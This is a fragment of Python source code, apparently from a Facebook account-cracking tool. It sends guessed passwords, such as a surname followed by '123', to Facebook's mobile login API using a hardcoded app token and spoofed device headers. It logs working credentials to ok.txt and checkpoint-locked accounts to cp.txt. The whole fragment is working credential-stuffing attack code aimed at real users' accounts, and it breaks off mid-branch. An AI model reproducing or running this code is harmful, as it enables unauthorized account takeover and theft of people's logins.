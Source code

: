 										ok = open("ok.txt", "a")

										ok.write(uid+"|"+pass4+"\n")

										ok.close()

										oks.append(uid+pass4)

									else:

										if "www.facebook.com" in data.json()['error_msg']:

											print(" \033[1;33m[loferjanan-CP] "+uid+" | "+pass4+"\033[0;97m")

											cp = open("cp.txt", "a")

											cp.write(uid+"|"+pass4+"\n")

											cp.close()

											cps.append(uid+pass4)

										else:

											pass5 = name.lower().split(' ')[1] + '123'

											api = 'https://b-api.facebook.com/method/auth.login'

											params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass5, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}

											headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _azimua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}

											data = requests.get(api, params=params, headers=headers_)

											if "access_token" in data.text and "EAAA" in data.text:

												print(" \033[1;32m[loferjanan-OK] "+uid+" | "+pass5+"\033[0;97m")

												ok = open("ok.txt", "a")

												ok.write(uid+"|"+pass5+"\n")

												ok.close()

												oks.append(uid+pass5)

											else:

												if "www.facebook.com" in data.json()['error_msg']:

													print(" \033[1;33m[loferjanan-CP] "+uid+" | "+pass5+"\033[0;97m")

													cp = open("cp.txt", "a")

													cp.write(uid+"|"+pass5+"\n")

													cp.close()

													cps.append(uid+pass5)
